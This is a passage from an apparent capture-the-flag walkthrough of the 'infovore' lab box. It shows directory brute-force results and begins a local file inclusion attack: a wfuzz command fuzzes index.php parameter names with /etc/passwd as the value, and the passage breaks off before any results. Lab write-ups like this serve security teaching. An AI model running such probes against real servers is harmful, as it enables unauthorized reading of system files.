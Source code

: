 ~~~
/.htaccess.gz (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess.old (Status: 403)
/.htaccess.tar (Status: 403)
/.htaccess.zip (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.bak (Status: 403)
/.htpasswd.old (Status: 403)
/.htpasswd.tar (Status: 403)
/.htpasswd.zip (Status: 403)
/.htpasswd.gz (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.txt (Status: 403)
/.hta.bak (Status: 403)
/.hta.old (Status: 403)
/.hta.tar (Status: 403)
/.hta.zip (Status: 403)
/.hta.gz (Status: 403)
/css (Status: 301)
/img (Status: 301)
/index.php (Status: 200)
/index.html (Status: 200)
/index.php (Status: 200)
/info.php (Status: 200)
/info.php (Status: 200)
/server-status (Status: 403)
/vendor (Status: 301)
===============================================================
2020/09/28 07:48:43 Finished
===============================================================
~~~

# Initial foothold (LFI)

## index.php parameter

Both `index.html` and `index.php` exists. Considering that the title of the page refers to "inclusion", the `index.php` page is likely expecting a parameter. Let's fuzz it:

~~~
kali@kali:~$ wfuzz -u http://infovore.box?FUZZ=/etc/passwd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 4743

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://infovore.box?FUZZ=/etc/passwd/
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                             
===================================================================
~~~